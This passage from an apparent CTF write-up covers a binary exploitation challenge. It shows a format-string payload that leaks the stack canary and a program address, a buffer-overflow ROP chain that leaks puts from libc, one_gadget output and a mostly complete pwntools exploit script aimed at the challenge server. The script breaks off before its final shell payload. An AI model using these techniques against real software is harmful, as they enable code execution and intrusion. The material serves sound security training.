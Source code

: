 Now we build our payloads:

```
first_payload = "%23$llx%20$llx"
second_payload = "A"*72 + p64(canary) + p64(0x0) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
```

With leaked puts libc address we can get the libc of the program using libc-database which was `libc6_2.31-0ubuntu9.7_amd64.so`  
Then we use `one_gadget`:

```console
┌──(kali㉿kali)-[~/Desktop/pwn/foobar_ctf]
└─$ one_gadget libc6_2.31-0ubuntu9.7_amd64.so  
0xe3b2e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL
```

Now we have everything to build our final payload  

```python
from pwn import *

context.log_level = 'debug'
LOCAL = False
REMOTE = True

if REMOTE:
	p = remote('chall.nitdgplug.org',30091)
if LOCAL:
	p = process('./chall')

# ---LEAK THE CANARY AND INIT_ADDR---
first_payload = "%23$llx%20$llx"
p.sendlineafter("Can you help find the Canary ?\n",first_payload)
canary = long(p.recv(16),16)
init_addr = long(p.recv(16),16)

# ---CALCULATE ADDR WITH OFFSET---
base_prog = init_addr - 0x12e0
puts_got = base_prog + 0x3fa0
puts_plt = base_prog + 0x10b0
main_addr = base_prog + 0x12a5
pop_rdi = base_prog + 0x1343

# ---BUFFER OVERFLOW PAYLOAD---
sec_payload = "A"*72 + p64(canary) + p64(0x0) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
p.sendline(sec_payload)
p.recv(0x48)
temp = p.recv(8)
s1 = ""
for x in temp:
	if ( x != "\n"):
		s1 += x
s1 = s1 + chr(0) + chr(0)
puts_libc = u64(s1)

# ---CALCULATE LIBC BASE ADDRESS---
log.info("Puts Libc Address: " + hex(puts_libc))
libc_base = puts_libc - 0x84450
one_gadget = libc_base + 0xe3b31

p.sendlineafter("Can you help find the Canary ?\n","%23$llx")
```